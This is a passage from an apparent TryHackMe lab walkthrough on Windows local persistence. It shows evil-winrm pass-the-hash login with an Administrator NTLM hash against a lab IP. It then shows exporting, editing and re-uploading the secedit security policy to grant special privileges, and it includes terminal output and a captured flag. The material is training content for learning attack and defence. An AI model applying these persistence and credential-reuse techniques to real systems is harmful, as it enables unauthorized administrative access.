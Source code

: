 Now lets pass the hash
```bash
evil-winrm -i 10.10.226.174 -u Administrator -H f3118544a831e728781d780cfdb9c1fa
```
`*Evil-WinRM* PS C:\Users\Administrator\Documents>`

Now we just need to run the EXE specified to get the flag
```powershell
*Evil-WinRM* PS C:\Users\Administrator\Documents> C:\flags\flag1.exe

THM{FLAG_BACKED_UP!}
```

## Special Privileges and Security Descriptors

Bring copy of the config file to the local attack machine as a backup
```powershell
*Evil-WinRM* PS C:\Users\Administrator\Documents> secedit /export /cfg config.inf

*Evil-WinRM* PS C:\Users\Administrator\Documents> download config.inf
```

Assign special privileges regardless of group membership. We can either modify the downloaded copy and upload to the target or modify the export we have on the target box:
```bash
vi config.inf 
```

```powershell
*Evil-WinRM* PS C:\Users\Administrator\Documents> upload config.inf config.inf.mod
                                        
Info: Uploading /home/sstephens/Documents/tryhackme/win_local_pers/spec_privs/config.inf to C:\Users\Administrator\Documents\config.inf.mod                                                                                             
                                        
Data: 25804 bytes of 25804 bytes copied
                                        
Info: Upload successful!

*Evil-WinRM* PS C:\Users\Administrator\Documents> rm config.inf

*Evil-WinRM* PS C:\Users\Administrator\Documents> mv config.inf.mod config.inf

*Evil-WinRM* PS C:\Users\Administrator\Documents> ls


    Directory: C:\Users\Administrator\Documents


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        5/29/2022  12:07 AM                SQL Server Management Studio
d-----        5/29/2022  12:12 AM                Visual Studio 2017
-a----        7/27/2024   9:58 AM          19354 config.inf

```
